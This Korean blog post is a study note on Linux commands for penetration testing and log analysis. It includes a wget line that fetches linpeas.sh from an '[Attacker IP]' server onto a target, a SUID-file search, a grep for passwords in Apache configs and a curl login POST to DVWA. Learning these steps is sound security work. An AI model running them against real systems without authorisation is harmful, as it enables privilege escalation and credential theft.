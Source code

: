 ```yaml
---
layout: post
title: "리눅스 명령어 공부"
date: 2025-09-02 17:00:00 +0900
categories: [시스템 해킹]
---
```


### 1. 개요

침투 테스트 및 보안 분석 과정에서 리눅스 명령어는 기본적인 도구로 활용된다. 시스템 정보 수집, 서비스 확인, 스크립트 준비 등 다양한 작업이 터미널을 통해 이루어진다.

---

### 2. 파일 및 텍스트 처리

*   **`find`**: 특정 조건의 파일을 검색한다. 권한 상승의 단서가 되는 SUID 설정 파일이나 설정 오류가 의심되는 파일을 찾을 때 유용하다.
    *   **주요 옵션:**
        *   `-perm`: 특정 권한을 가진 파일을 검색한다. (`-u=s`, `-4000`은 SUID)
        *   `-name`: 특정 이름 패턴을 가진 파일을 검색한다.
        *   `-type`: 파일의 종류를 지정한다. (`f`: 파일, `d`: 디렉터리)
    ```bash
    # 루트 디렉터리부터 SUID 비트가 설정된 파일을 검색하고 권한 오류는 출력하지 않음
    find / -perm -u=s -type f 2>/dev/null
    ```
*   **`grep`**: 파일이나 파이프라인 출력에서 특정 문자열 패턴을 필터링한다. 로그 파일 분석이나 설정 파일에서 민감 정보를 찾을 때 사용된다.
    *   **주요 옵션:**
        *   `-r`: 지정된 디렉터리의 하위 폴더까지 재귀적으로 검색한다.
        *   `-i`: 대소문자를 구분하지 않고 검색한다.
        *   `-v`: 특정 패턴을 제외한 모든 라인을 출력한다.
    ```bash
    # 웹 서버 설정 파일 디렉터리부터 'password' 문자열을 하위 폴더까지 검색
    grep -r "password" /etc/apache2/
    ```

---

### 3. 프로세스 및 네트워크 확인

*   **`ps`**: 현재 시스템에서 동작하고 있는 프로세스의 목록을 보여준다. 이를 통해 시스템 권한으로 실행되는 비정상적인 프로세스를 확인할 수 있다.
    *   **주요 옵션 조합 `aux`:**
        *   `a`: 다른 사용자의 프로세스도 보여준다.
        *   `u`: 사용자 중심의 포맷으로 출력한다.
        *   `x`: 터미널에 연결되지 않은 프로세스(데몬)도 보여준다.
    ```bash
    # 시스템에서 실행 중인 모든 프로세스를 상세 정보와 함께 보여줌
    ps aux
    ```
*   **`netstat`**: 현재 시스템에서 열려 있는 포트와 네트워크 연결 상태를 보여준다. 최신 시스템에서는 `ss` 명령어가 더 빠른 성능을 보인다.
    *   **주요 옵션 조합 `tulpn`:**
        *   `t`: TCP 포트를 보여준다.
        *   `u`: UDP 포트를 보여준다.
        *   `l`: 연결 대기(Listen) 상태의 포트만 보여준다.
        *   `p`: 해당 포트를 사용하는 프로세스의 이름과 PID를 보여준다.
        *   `n`: 호스트 이름 대신 IP 주소로 보여준다.
    ```bash
    # 리스닝 중인 모든 TCP/UDP 포트와 해당 포트를 사용하는 프로세스 정보를 보여줌
    netstat -tulpn
    ```

---

### 4. 원격 데이터 전송

*   **`wget`**: 원격 서버의 파일을 다운로드하여 저장한다. 공격자 PC의 웹 서버에서 권한 상승 진단 스크립트(`linpeas.sh`)를 공격 대상 서버로 옮길 때 사용된다.
    *   **주요 옵션:**
        *   `-q`: 다운로드 과정을 출력하지 않는다 (Quiet).
        *   `-O <file>`: 다운로드한 내용을 지정된 파일 이름으로 저장한다. (`-O -`는 표준 출력으로 보냄)
    ```bash
    # 공격자 PC에서 실행 중인 웹 서버로부터 linpeas.sh를 다운로드
    wget http://[Attacker IP]:8000/linpeas.sh
    ```
*   **`curl`**: URL을 통해 데이터를 전송하고 그 결과를 터미널에 직접 출력한다. 파일 저장 없이 API 응답을 확인하거나 웹 페이지 소스를 분석할 때 유용하다.
    *   **주요 옵션:**
        *   `-X <METHOD>`: `GET`, `POST` HTTP 메서드를 지정한다.
        *   `-d <data>`: `POST` 요청 시 전송할 데이터를 지정한다.
    ```bash
    # DVWA 로그인 페이지에 POST 요청을 보내고 응답을 확인
    curl -X POST -d "username=admin&password=password&Login=Login" http://[Attacker IP]/login.php
    ```

---

### 5. 기본 로그 분석

시스템에 남겨진 로그 파일을 분석하여 공격 시도나 비정상적인 활동을 탐지할 수 있다. `grep`, `tail`과 같은 명령어는 대량의 로그에서 유의미한 정보를 필터링하는 데 사용된다.

#### ***주요 로그 파일 (Ubuntu 기준)***
*   `/var/log/auth.log`: 사용자 로그인, `sudo` 명령어 사용 인증 관련 기록.
*   `/var/log/apache2/access.log`: 웹 서버 접속 기록.

#### ***로그 분석 예시***
*   **SSH 로그인 실패 기록 확인:**
    `/var/log/auth.log` 파일에서 "Failed password" 문자열을 검색하여 무차별 대입 공격 시도를 탐지한다.
    ```bash
    grep "Failed password" /var/log/auth.log
    ```
*   **특정 IP의 웹 서버 접근 기록 확인:**
    `access.log`에서 특정 IP의 접근 기록을 필터링한다.
    ```bash
    grep "[Attacker IP]" /var/log/apache2/access.log
    ```

이러한 로그 분석은 [A09: 보안 로깅 및 모니터링 실패](https://hamap0.github.io/projects/owasp-top-10/2025/09/02/A09_Security-Logging-and-Monitoring-Failures.html) 프로젝트에서 로그의 중요성을 이해하는 기반이 된다.

<hr class="short-rule">